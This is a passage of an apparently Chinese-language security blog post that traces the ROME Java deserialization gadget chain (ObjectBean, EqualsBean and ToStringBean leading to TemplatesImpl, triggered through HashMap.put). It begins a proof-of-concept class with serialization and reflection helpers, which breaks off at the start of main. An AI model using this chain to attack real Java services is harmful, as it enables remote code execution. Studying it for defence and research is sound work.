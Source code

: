 ```java
```



而这里会发现，ToStringBean是有两个toSting方法的，我们需要控制`this._obj`是我们的TemplatesImpl

![image-20221026114609962](https://tuchuang.huamang.xyz/img/image-20221026114609962.png)

我们继续往外跟，这里是`ObjectBean.toString()`，我们跟进去看看，可以看到ObjectBean他一下实现了三个Bean，而触发了他的toSting方法，就会执行到ToStringBean的toSting方法

![image-20221026114843883](https://tuchuang.huamang.xyz/img/image-20221026114843883.png)

那么如何执行到ToStringBean的toSting方法呢，这里是用到了EqualsBean的beanHashCode，这里的`this._obj`就是ObjectBean

```java
    public int beanHashCode() {
        return this._obj.toString().hashCode();
    }
```

![image-20221026115336557](https://tuchuang.huamang.xyz/img/image-20221026115336557.png)

那么再往前跟，会发现执行beanHashCode的地方，居然又回到了ObjectBean，在ObjectBean的hashCode方法

![](https://tuchuang.huamang.xyz/img/image-20221026115440387.png)

那触发hashCode的地方就分析多了，这里我们可以用一个HashMap.put就行了

## POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;

public class ROME {
    public static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream btout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(btout);
        objOut.writeObject(obj);
        return btout.toByteArray();
    }

    public static Object deserialize(byte[] serialized) throws Exception {
        ByteArrayInputStream btin = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(btin);
        Object o = objIn.readObject();
        return o;
    }

    public static void setFieldValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);

    }
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
```